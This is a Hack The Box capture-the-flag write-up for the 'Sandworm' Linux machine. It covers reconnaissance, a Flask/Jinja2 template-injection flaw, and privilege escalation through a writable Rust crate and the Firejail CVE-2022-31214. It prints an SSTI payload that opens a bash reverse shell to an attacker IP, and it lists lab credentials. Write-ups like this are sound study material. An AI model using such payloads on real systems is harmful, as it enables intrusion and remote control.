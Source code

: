 ```yaml
---
title: Sandworm Notes
date: 2023-08-18 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, SSTI, CVE-2022-31214, Bash Scripting]

img_path: /assets/img/htb/writeups/sandworm
---
```


* * *

#  Sandworm Notes

* * *

## **Information gathering**

* * *

**Scope:** 10.10.11.218/32 (Linux)

![](target_connection.png)

**TCP Nmap scan:** 65,535 ports

![](nmap_all_ports_TCP.png)

* **Open ports**:
	* **22/ssh (Secure Shell Protocol)**
		* Banner Grabbing
			* Service
				* OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
					* Latest version: [OpenSSH 9.4](https://www.openssh.com/txt/release-9.4)/[9.4p1](https://www.openssh.com/txt/release-9.4) (2023-08-10)
			* Authentication: (publickey, password)
		* Valid credentials
			* None

	* **80/http (Hypertext Transfer Protocol)**
		* Banner Grabbing
			* Redirection: https://ssa.htb/ (10.10.11.218:443)
				![](http_banner_grabbing_curl.png)
				* Add domain to **Local DNS Server** (/etc/hosts)
					* echo "10.10.11.218 ssa.htb" \| sudo tee -a /etc/hosts
	 
	  * **443/https (Hypertext Transfer Protocol Secure)**
		*  Location: https://ssa.htb/
			* Banner Grabbing
				* Technologies
					* HTTPServer: Ubuntu Linux (nginx/1.18.0)
					* Jquery
					* Flask & trade
				* Web Interface
					* FIrefox
						![](https_web_firefox.png)
				* Posible user: atlas@ssa.htb
					![](https_banner_grabbing_openssl.png)
				* Url Scrapping
					![](https_url_scrapping.png)
				* Directory enumeration:
					![](https_fuzzing_dir.png)
					* https://ssa.htb/guide
						* PGP Encryption (Pretty Good Privacy): Encryption system used for both sending encrypted emails and encrypting sensitive files
							* Generate key
								![](generate_key.png)
							* Then create message, signed it and export public key
								![](signed_process.png)
							* Finally use them in web service and we get valid verification
								![](https_guide_valid_signature.png)
					* https://ssa.htb/pgp
						![](gpg_public_key.png)
					* https://ssa.htb/login
						* Valid credentials: None
						![](https_login_panel.png)

## **Vulnerability assessment**

* * *
* * *

* In the signature verification result we view some output when we created out public key
![](https_guide_valid_signature.png)
* In addition, from our enumeration we know that the site uses the flask framework to set up the web
	* **SSTI (Server Site Template Injection)**
		* Is possible when an attacker injects template directive as user input that can execute arbitrary code on the server
		* **PoC**: [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
			* We generate our public key, but this time we write on field that is reflected (Name) this: \{\{7\*7\}\}
			* If we look at output 49, we will known that is vulnerable (VULNERABLE)
				![](PoC_STTI.png)
				* SSTI bash script Enumeration:
					![](ssti_PoC.png)
					* Mysql credentials:
						* mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA

## **Exploitation**

* * *
* * *

* **SSTI (Server Site Template Injection)**: [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
	* Using \_\_class\_\_ and \_\_mro\_\_ objects: (ssti.sh) [https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tool_Sandworm](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tool_Sandworm)
		* Searching **Subprocess.Popen** classs to execute commands
		* Payload: \{\{''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()\[439\](\"bash -c 'bash -i >& /dev/tcp/10.10.15.5/4444 0>&1'\",shell=True,stdout=-1).communicate()\}\}
		![](ssti_rce_shell.png)

## **Post-exploitation**

* * *
* * *

* System User (Atlas)
	* (Sandbox): A sandbox is a type of software testing environment that enables the **isolated execution of software or programs for independent evaluation**
		* Firejail: Firejail is a **SUID sandbox program** that reduces the risk of security breaches by **restricting the running environment of untrusted applications** using Linux namespaces, seccomp-bpf and Linux capabilities
	* Home directory enumeration (atlas)
		* HTTPie: Provides a **simple http command** that allows for sending arbitrary HTTP requests using a simple and natural syntax
		* ~/.config/httpie/sessions/localhost_5000/admin.json
			![](config_credentials.png)
			* Credentials: **silentobserver:quietLiketheWind22** (system user /etc/passwd)
				* Web service login
				![](https_admin_panel.png)

## **Lateral movement**

* * *
* * *

* System credentials Reuse: **silentobserver:quietLiketheWind22**
	![](silentobserver_ssh.png)
	* Enumeration (silentobserver)
		* SUID files
			* Owner: Atlas user
				* /opt/tipnet/target/debug/tipnet
					* Dependencies files: /opt/tipnet/target/debug/tipnet.d
						* /opt/crates/logger/src/lib.rs (-rw-r**w**-r-- 1 atlas **silentobserver**)
						* FIle modification Rust RCE:
							![](rust_list_modification_rce.png)
				* /opt/tipnet/target/debug/deps/tipnet-a859bd054535b3c1
				* /opt/tipnet/target/debug/deps/tipnet-dabc93f7704f7b48
		* Process script (pspy.sh)
			![](pspy.png)
			* We can view the execution of **Cargo** and the **previos Rust script (tipnet)and dependencies (tipnet.d)**:
				* Cargo is a default tool for managing dependencies in **Rust**
* Reverse shell like user **Atlas**
	![](atlas_access.png)
	* Persistence: **create pair rsa keys and add pubkey to authorized keys**
	* Enumeration
		* /usr/local/bin/firejail (0.9.68) (**CVE-2022-31214**) [https://nvd.nist.gov/vuln/detail/CVE-2022-31214](https://nvd.nist.gov/vuln/detail/CVE-2022-31214)
			* Exploit [https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)
			![](root.png)

## **Proof of concept**

* * *
* * *